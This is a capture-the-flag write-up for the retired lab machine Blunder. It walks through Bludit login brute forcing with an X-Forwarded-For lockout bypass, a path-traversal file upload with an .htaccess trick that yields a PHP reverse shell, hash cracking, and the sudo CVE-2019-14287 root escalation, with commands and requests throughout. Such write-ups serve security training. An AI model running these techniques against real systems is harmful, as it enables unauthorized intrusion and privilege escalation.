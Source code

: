 # Blunder

This is the write-up for the box Blunder that got retired at the 17th October 2020.
My IP address was 10.10.14.5 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.191    blunder.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/blunder.nmap 10.10.10.191
```

```
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Blunder | A blunder of interesting facts
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

## Checking HTTP (Port 80)

The website looks like a blog with different facts and none of the links have a file extension such as _html_ or _php_.

Lets search for hidden directories with **Gobuster**:
```
gobuster -u http://10.10.10.191 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds _todo.txt_ that has a potential username of _fergus_:
```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

It finds the directory _admin_ that forwards to a login page with the title **Bludit**:

![Bludit login form](blunder_web-1.png)

The software [Bludit](https://www.bludit.com/) is a **Content Management System (CMS)** that uses JSON format to store contents and no database.

When trying to login with any credentials, the HTTP response contains a _Cookie header_ and a **CSRF Token** in the data:
```
POST /admin/ HTTP/1.1
Host: 10.10.10.191
(...)
Cookie: BLUDIT-KEY=3c6vkun1o092i1r94bjad1s6f1
(...)

tokenCSRF=d5c13e6904f13f2bc31d89836d20f1261813bf51&username=admin&password=pass123&save=
```

After sending the response twice, the response resolves in a HTTP status code _301 Moved Permanently_ and sends a _Set-Cookie_ header:
```
HTTP/1.1 301 Moved
(...)
X-Powered-By: Bludit
Set-Cookie: BLUDIT-KEY=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0
Location: /admin/login
(...)
```

That means that the **CSRF token** is valid once and a new one has to be generated when trying to bypass the authentication.
There is also a Brute-Force protection, which blocks our IP address after ten unsuccessful login attempts.

### Brute Forcing Authentication to Bludit

To bypass the Brute-Force protection, this [blog article from rastating](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) explains to use the _X-Forwarded-For_ header:
```
POST /admin/ HTTP/1.1
Host: 10.10.10.191
(...)
X-Forwarded-For: 127.0.0.1
(...)
```

Creating a custom wordlist from the blog with **CeWL**:
```
cewl http://10.10.10.191 > wordlist.txt
```

A Python script can be found in this repository that generates new CSRF tokens and brute forces the password of _fergus_ with the custom created wordlist:
```
python3 blunder_bruteforce-bludit.py
```

After a while it gets found and login works:
```
fergus:RolandDeschain
```

![Bludit dashboard](blunder_web-2.png)

### Exploiting Bludit

When searching for public vulnerabilities for **Bludit**, there is an **Arbitrary File Upload** that allows to upload images and change the type to PHP to execute system commands:
```
searchsploit bludit

Bludit - Directory Traversal Image File Upload
```

I will use the PHP reverse shell _php-reverse-shell.php_ from the **Laudanum** scripts.

Uploading the image _(php-reverse-shell.gif)_ file and using **Directory Traversal** in the HTTP request to upload it to the _/tmp_ folder:
```
New Content --> Images --> php-reverse-shell.gif
```
```
POST /admin/ajax/upload-images HTTP/1.1

(...)
../../tmp
-----------------------------89889305719326295832627084894
Content-Disposition: form-data; name="tokenCSRF"
(...)
```

Creating _.htaccess_ file that will make _gif_ files executable:
```
RewriteEngine off
AddType application/x-httpd-php .gif
```

Uploading _htaccess.gif_ and renaming it to _.htaccess_ in the HTTP request and uploading it to the _/tmp_ folder:
```
POST /admin/ajax/upload-images HTTP/1.1
(...)

Content-Disposition: form-data; name="images[]"; filename=".htaccess"
Content-Type: image/gif

RewriteEngine off
AddType application/x-httpd-php .gif

(...)

../../tmp
-----------------------------277053525017968010213846080345
Content-Disposition: form-data; name="tokenCSRF"
(...)
```

The uploaded shell can be found in _/bl-content/tmp/php-reverse-shell.gif_ and after browsing there, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

In _/var/www/bludit-3.10.0a/_ is the another version of **Bludit** and the file _bl-content/databases/users.php_ contains a password for the user _Hugo_:
```
admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
(...)
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
```

As the hash has 40 characters, it is a **SHA1 hash** and can be found on public hash databases like [CrackStation](https://crackstation.net/):
> Password120

The user exists on the box and switching users is possible:
```
su hugo
```

### Privilege Escalation to root

When checking the root privileges of _hugo_, it shows that the user can run _/bin/bash_ as everyone other than root:
```
sudo -l

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

This configuration has a [vulnerability CVE-2019-14287](https://www.whitesourcesoftware.com/resources/blog/new-vulnerability-in-sudo-cve-2019-14287/) which makes it possible to bypass this restriction and run commands as root anyway:
```
sudo -u#-1 /bin/bash
```

This starts a shell session as root!
